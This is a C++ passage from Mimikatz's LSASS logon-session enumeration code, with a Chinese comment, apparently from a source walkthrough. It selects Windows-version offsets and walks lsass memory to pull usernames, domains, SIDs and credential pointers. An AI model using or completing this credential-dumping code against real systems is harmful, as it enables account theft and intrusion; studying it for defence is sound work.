 ```c++
        sessionData.cLsass = &cLsass;
        sessionData.lsassLocalHelper = lsassLocalHelper;
        // 判断当前 Windows 系统的版本信息
        if(cLsass.osContext.BuildNumber < KULL_M_WIN_MIN_BUILD_2K3)
            helper = &lsassEnumHelpers[0];
        else if(cLsass.osContext.BuildNumber < KULL_M_WIN_MIN_BUILD_VISTA)
            helper = &lsassEnumHelpers[1];
        else if(cLsass.osContext.BuildNumber < KULL_M_WIN_MIN_BUILD_7)
            helper = &lsassEnumHelpers[2];
        else if(cLsass.osContext.BuildNumber < KULL_M_WIN_MIN_BUILD_8)
            helper = &lsassEnumHelpers[3];
        else if(cLsass.osContext.BuildNumber < KULL_M_WIN_MIN_BUILD_BLUE)
            helper = &lsassEnumHelpers[5];
        else
            helper = &lsassEnumHelpers[6];

        if((cLsass.osContext.BuildNumber >= KULL_M_WIN_MIN_BUILD_7) && (cLsass.osContext.BuildNumber < KULL_M_WIN_MIN_BUILD_BLUE) && (kuhl_m_sekurlsa_msv_package.Module.Informations.TimeDateStamp > 0x53480000))
            helper++; // yeah, really, I do that =)

        securityStruct.hMemory = cLsass.hLsassMem;
        if(securityStruct.address = LogonSessionListCount)
            kull_m_memory_copy(&data, &securityStruct, sizeof(ULONG));

        for(i = 0; i < nbListes; i++)
        {
            securityStruct.address = &LogonSessionList[i];
            data.address = &pStruct;
            data.hMemory = &KULL_M_MEMORY_GLOBAL_OWN_HANDLE;
            if(aBuffer.address = LocalAlloc(LPTR, helper->tailleStruct))
            {
                if(kull_m_memory_copy(&data, &securityStruct, sizeof(PVOID)))
                {
                    data.address = pStruct;
                    data.hMemory = securityStruct.hMemory;

                    while((data.address != securityStruct.address) && retCallback)
                    {
                        if(kull_m_memory_copy(&aBuffer, &data, helper->tailleStruct))
                        {
                            sessionData.LogonId     = (PLUID)           ((PBYTE) aBuffer.address + helper->offsetToLuid);
                            sessionData.LogonType   = *((PULONG)        ((PBYTE) aBuffer.address + helper->offsetToLogonType));
                            sessionData.Session     = *((PULONG)        ((PBYTE) aBuffer.address + helper->offsetToSession));
                            sessionData.UserName    = (PUNICODE_STRING) ((PBYTE) aBuffer.address + helper->offsetToUsername);
                            sessionData.LogonDomain = (PUNICODE_STRING) ((PBYTE) aBuffer.address + helper->offsetToDomain);
                            sessionData.pCredentials= *(PVOID *)        ((PBYTE) aBuffer.address + helper->offsetToCredentials);
                            sessionData.pSid        = *(PSID *)         ((PBYTE) aBuffer.address + helper->offsetToPSid);
                            sessionData.pCredentialManager = *(PVOID *) ((PBYTE) aBuffer.address + helper->offsetToCredentialManager);
                            sessionData.LogonTime   = *((PFILETIME)     ((PBYTE) aBuffer.address + helper->offsetToLogonTime));
                            sessionData.LogonServer = (PUNICODE_STRING) ((PBYTE) aBuffer.address + helper->offsetToLogonServer);

```